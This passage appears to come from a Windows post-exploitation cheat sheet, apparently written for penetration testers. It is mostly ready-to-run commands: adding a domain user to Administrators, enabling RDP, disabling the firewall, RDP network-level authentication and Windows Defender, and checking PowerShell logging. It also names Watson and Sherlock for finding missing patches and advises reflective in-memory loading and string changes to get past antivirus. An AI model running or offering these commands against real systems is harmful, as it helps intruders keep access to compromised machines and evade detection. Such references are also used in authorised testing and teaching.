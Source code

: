 

## [](#header-2)Post Exploitation



Useful Commands

```
net user m0chan /add /domain
net localgroup Administrators m0chan /add

# Enable RDP
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

Turn firewall off
netsh firewall set opmode disable

Or like this
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

If you get this error:

CredSSP Error Fix ->

Add this reg key:

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f

Disable Windows Defender
Set-MpPreference -DisableRealtimeMonitoring $true

```



Check if Powershell Logging is Enabled

```
reg query HKLM\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging
reg query HKLM\Software\Policies\Microsoft\Windows\PowerShell\Transcription
```



Dump Creds

```

```



Check for Missing KB's

```
watson.exe
Sherlock.ps1

Use Watson.exe Assembly and reflectively load .NET Assembly into memory to avoid antivirus. 

More at the bottom re. Reflectively Loading stuff. (Also does not hurt to change certain strings etc)

https://github.com/rasta-mouse/Watson
```
